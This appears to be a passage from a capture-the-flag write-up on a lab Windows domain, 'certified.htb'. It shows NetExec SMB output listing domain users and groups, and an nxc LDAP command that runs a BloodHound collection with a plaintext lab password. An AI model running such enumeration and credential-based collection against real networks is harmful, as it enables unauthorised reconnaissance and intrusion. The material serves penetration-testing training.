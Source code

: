 ```plaintext unwrap=true title="nxc smb users"
CERTIFIED\Enterprise Read-only Domain Controllers (SidTypeGroup)
CERTIFIED\Administrator (SidTypeUser)
CERTIFIED\Guest (SidTypeUser)
CERTIFIED\krbtgt (SidTypeUser)
CERTIFIED\Domain Admins (SidTypeGroup)
CERTIFIED\Domain Users (SidTypeGroup)
CERTIFIED\Domain Guests (SidTypeGroup)
CERTIFIED\Domain Computers (SidTypeGroup)
CERTIFIED\Domain Controllers (SidTypeGroup)
CERTIFIED\Cert Publishers (SidTypeAlias)
CERTIFIED\Schema Admins (SidTypeGroup)
CERTIFIED\Enterprise Admins (SidTypeGroup)
CERTIFIED\Group Policy Creator Owners (SidTypeGroup)
CERTIFIED\Read-only Domain Controllers (SidTypeGroup)
CERTIFIED\Cloneable Domain Controllers (SidTypeGroup)
CERTIFIED\Protected Users (SidTypeGroup)
CERTIFIED\Key Admins (SidTypeGroup)
CERTIFIED\Enterprise Key Admins (SidTypeGroup)
CERTIFIED\RAS and IAS Servers (SidTypeAlias)
CERTIFIED\Allowed RODC Password Replication Group (SidTypeAlias)
CERTIFIED\Denied RODC Password Replication Group (SidTypeAlias)
CERTIFIED\DC01$ (SidTypeUser)
CERTIFIED\DnsAdmins (SidTypeAlias)
CERTIFIED\DnsUpdateProxy (SidTypeGroup)
CERTIFIED\judith.mader (SidTypeUser)
CERTIFIED\Management (SidTypeGroup)
CERTIFIED\management_svc (SidTypeUser)
CERTIFIED\ca_operator (SidTypeUser)
CERTIFIED\alexander.huges (SidTypeUser)
CERTIFIED\harry.wilson (SidTypeUser)
CERTIFIED\gregory.cameron (SidTypeUser)
```

```bash unwrap title="bloodhound ingestor" 
┌──(root㉿n0m4d)-[/host_data]
└─# nxc ldap --dns-server 10.10.11.41 -u judith.mader -p judith09 --bloodhound --collection All 10.10.11.41
LDAP        10.10.11.41     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: localadmin, group, objectprops, acl, rdp, psremote, trusts, dcom, container, session
LDAP        10.10.11.41     389    DC01             Done in 00M 02S
LDAP        10.10.11.41     389    DC01             Compressing output into /root/.nxc/logs/DC01_10.10.11.41_2025-07-07_022315_bloodhound.zip
```
